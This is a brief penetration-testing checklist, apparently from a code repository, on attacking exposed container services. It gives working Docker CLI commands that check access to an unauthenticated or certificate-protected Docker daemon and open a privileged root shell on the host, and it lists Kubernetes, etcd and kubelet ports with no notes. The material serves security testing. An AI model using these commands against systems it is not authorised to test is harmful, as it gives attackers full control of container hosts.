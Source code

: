 # External Attacker Checklist

External attackers are typically looking for listening services. The list below is likely container related service ports and notes on testing/attacking them.

## 2375/TCP - Docker

This is the default insecure Docker port. It's an HTTP REST API, and usually access results in root on the host.

**Testing with docker CLI**

The easiest way to attack this is just use the docker CLI.

* `docker run -H tcp://[IP]:2375 info` - This will confirm access and return some information about the host
* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

## 2376/TCP - Docker

This is the default port for the Docker daemon where it requires credentials (client certificate), so you're unlikely to get far without that. If you do have the certificate and key for access :-

* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 info` - format for the info command to confirm access.
* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - root on the host

## 443/TCP, 6443/TCP, 8443/TCP - Kubernetes API server

Typical ports for the Kubernetes API server.


## 2379/TCP - etcd

## 10250/TCP - kubelet

## 10255/TCP - kubelet read-only


